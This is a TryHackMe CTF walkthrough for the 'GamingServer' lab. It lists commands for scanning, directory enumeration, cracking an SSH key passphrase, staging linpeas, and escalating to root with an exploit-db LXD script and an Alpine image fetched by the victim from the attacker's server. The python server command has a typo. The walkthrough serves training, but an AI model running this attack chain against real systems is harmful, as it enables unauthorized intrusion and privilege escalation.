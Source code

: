 # GamingServer CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GamingServer** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/gamingserver). 
---

Basic port scan 

```
nmap -sV -sC 10.10.44.124
```

![nmap](imgs/nmap.png "nmap")

Basic directory enumeration

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.44.124  
```

user might be john as suggested by comment on the site

```
ssh2john secretKey > hash.txt
```

```
john --wordlist=dict.lst hash.txt
```

found password: letmein

```
scp -i secretKey ~/linpeas.sh john@10.10.44.124:/tmp/
```

download from alpine lxd from
```
https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

start python server `sudo python3 -m http-server`


use on victim
```
wget 10.11.115.41:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

create exploit file from 

`https://www.exploit-db.com/exploits/46978`
`nano exploit.sh`
`chmod +x exploit.sh`

to gain root
```
./exploit.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```

# MACHINE PWNED
